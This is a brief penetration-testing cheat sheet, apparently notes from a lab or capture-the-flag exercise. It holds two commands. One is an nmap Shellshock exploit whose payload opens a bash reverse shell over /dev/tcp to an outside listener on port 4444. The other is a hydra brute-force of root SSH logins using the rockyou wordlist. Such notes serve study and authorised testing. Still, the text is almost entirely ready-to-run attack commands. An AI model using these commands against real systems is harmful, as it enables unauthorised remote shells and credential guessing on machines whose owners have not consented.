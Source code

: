 ###
```
nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=bin/bash /bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" 10.129.1.175
```

### hydra
```
 hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
 ```

https://www.stationx.net/nmap-cheat-sheet/
